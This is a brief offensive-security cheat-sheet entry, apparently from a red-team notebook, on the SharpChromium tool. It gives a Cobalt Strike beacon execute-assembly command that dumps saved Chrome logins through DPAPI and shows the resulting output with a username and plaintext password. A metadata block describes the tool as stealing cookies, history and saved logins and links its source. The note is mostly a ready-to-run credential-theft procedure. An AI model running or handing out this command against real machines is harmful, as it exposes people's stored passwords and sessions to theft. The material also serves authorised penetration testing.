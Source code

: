 # Sharp Chromium

## [[Data Protection API (DPAPI)]]
Dump the Chrome passwords
``````beacon
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: john) ---
URL      : 
Username : john
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
``````



```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/djhohnstein/SharpChromium
description: Dump cookies, history, saved logins from chrome
```